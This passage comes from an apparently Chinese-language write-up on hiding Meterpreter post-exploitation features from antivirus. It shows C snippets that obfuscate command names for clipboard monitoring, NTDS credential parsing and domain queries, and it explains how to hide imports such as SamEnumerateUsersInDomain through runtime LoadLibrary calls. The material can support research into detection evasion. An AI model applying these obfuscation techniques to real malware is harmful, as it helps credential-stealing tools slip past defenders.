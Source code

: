 ```
char hid_extapi_smtmvW05cI9y[] = `{`'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n','i','t','o','r','_','d','u','m','p',0`}`;
char hid_extapi_01kuYCM8z49k[] = `{`'e','x','t','a','p','i','_','a','d','s','i','_','d','o','m','a','i','n','_','q','u','e','r','y',0`}`;
char hid_extapi_SMK9uFj6nThk[] = `{`'e','x','t','a','p','i','_','n','t','d','s','_','p','a','r','s','e',0`}`;
char hid_extapi_PHxnGM7M0609[] = `{`'e','x','t','a','p','i','_','w','m','i','_','q','u','e','r','y',0`}`;
char hid_extapi_J7EGS6FRHwkV[] = `{`'e','x','t','a','p','i','_','p','a','g','e','a','n','t','_','s','e','n','d','_','q','u','e','r','y',0`}`;

Command customCommands[] =
`{`

    COMMAND_REQ(hid_extapi_UQOoNXigAPq4, request_window_enum),
    COMMAND_REQ(hid_extapi_vhFHmZ8u2hfz, request_service_enum),
    COMMAND_REQ(hid_extapi_pW25eeIGBeru, request_service_query),
    COMMAND_REQ(hid_extapi_S4Ws57MYBjib, request_service_control),
    COMMAND_REQ(hid_extapi_HJ0lD9Dl56A4, request_clipboard_get_data),
    COMMAND_REQ(hid_extapi_IiEzXils3UsR, request_clipboard_set_data),
    COMMAND_REQ(hid_extapi_czLOBo0HcqCP, request_clipboard_monitor_start),
    COMMAND_REQ(hid_extapi_WcWbTrsQujiT, request_clipboard_monitor_pause),
    COMMAND_REQ(hid_extapi_rPiFTZW4ShwA, request_clipboard_monitor_resume),
    COMMAND_REQ(hid_extapi_05fAoaZLqOoy, request_clipboard_monitor_purge),
    COMMAND_REQ(hid_extapi_cOOyHTPTvZGK, request_clipboard_monitor_stop),
    COMMAND_REQ(hid_extapi_smtmvW05cI9y, request_clipboard_monitor_dump),
    COMMAND_REQ(hid_extapi_01kuYCM8z49k, request_adsi_domain_query),
    COMMAND_REQ(hid_extapi_SMK9uFj6nThk, ntds_parse),
    COMMAND_REQ(hid_extapi_PHxnGM7M0609, request_wmi_query),
    COMMAND_REQ(hid_extapi_J7EGS6FRHwkV, request_pageant_send_query),
    COMMAND_TERMINATOR
`}`;
```



## 隐藏API导入

调用由外部库导出的函数会使链接器向`导入地址表`(IAT)写入一个条目。 最终函数名称将在二进制文件中以明文形式显示，因此在无需执行恶意文件的情况下，可以静态恢复函数名。 当然，有些函数名称相比其他名称更可疑。 一个更明智的做法是隐藏所有可疑二进制文件，同时，保留大多数合法二进制文件中存在的文件。

例如，在Metepreter的`kiwi`扩展中，可以找到以下行：

```
enumStatus = SamEnumerateUsersInDomain(hDomain, &amp;EnumerationContext, 0, &amp;pEnumBuffer, 100, &amp;CountRetourned);
```

该函数由`samlib.dll`导出，因此链接器会使字符串`samlib.dll`和`SamEnumerateUsersInDomain`出现在已编译的二进制文件中。

要解决此问题，可以在运行时使用`LoadLibrary/GetProcAddresss`导入API。当然，这两个函数都适用于字符串，因此也必须对其进行混淆。 因此，我们希望按如下所示自动重写上述代码段：

```
typedef NTSTATUS(__stdcall* _SamEnumerateUsersInDomain)(
    SAMPR_HANDLE DomainHandle,
    PDWORD EnumerationContext,
    DWORD UserAccountControl,
    PSAMPR_RID_ENUMERATION* Buffer,
    DWORD PreferedMaximumLength,
    PDWORD CountReturned
);
char hid_SAMLIB_01zmejmkLCHt[] = `{`'S','A','M','L','I','B','.','D','L','L',0`}`;
char hid_SamEnu_BZxlW5ZBUAAe[] = `{`'S','a','m','E','n','u','m','e','r','a','t','e','U','s','e','r','s','I','n','D','o','m','a','i','n',0`}`;
HANDLE hhid_SAMLIB_BZUriyLrlgrJ = LoadLibrary(hid_SAMLIB_01zmejmkLCHt);
```